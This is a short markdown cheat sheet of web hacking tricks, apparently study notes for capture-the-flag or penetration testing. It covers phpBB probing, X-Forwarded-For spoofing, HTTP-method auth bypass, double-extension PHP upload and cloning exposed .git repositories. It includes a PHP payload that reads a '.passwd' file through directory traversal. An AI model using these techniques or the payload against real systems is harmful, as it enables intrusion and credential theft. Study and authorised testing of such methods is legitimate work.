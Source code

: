 # Random Hacks
PHPBB
* Look through the file structure and try and access through the URL
* https://www.phpbb.com/community/viewtopic.php?t=2166305

IP-Spoofing
Intranets
* Assigned ranges include:
     10.0.0.0        -   10.255.255.255  (10/8 prefix)
     172.16.0.0      -   172.31.255.255  (172.16/12 prefix)
     192.168.0.0     -   192.168.255.255 (192.168/16 prefix)
* Use X-Forwarded-For Header

WWW-Authenticate Realm
* Submission of username and password
   	* Just passed in as a base64 encode of user:password
* Some methods will be blocked, others not
   	* Maybe they disallow non-admins from GET and POST... but what about PUT? DELETE?

OS Injection through PHP File
* If you are able to upload a PHP file in the place of a img or something
   	* Try a double extension to trick it into accepting
   	* Create a PHP file that accesses sensitive data
<html>
<body>
<h1>My first PHP page</h1>
<?php
$myfile = fopen("../../../.passwd", "r") or die("Unable to open file!");
echo fread($myfile,filesize("../../../.passwd"));
fclose($myfile);
?>
</body>
</html>

Exposes Git Repo
* sometimes the git history of a page is accessible by the public :(
* add a /.git at the end of a URL to see if it's available
* traverse through to see if there is anything sensitive an attacker can exploit
* use wget -r “url" to clone the repo to your desktop
   	* Try doing it in WSL
* Then you can view the history of the repository.

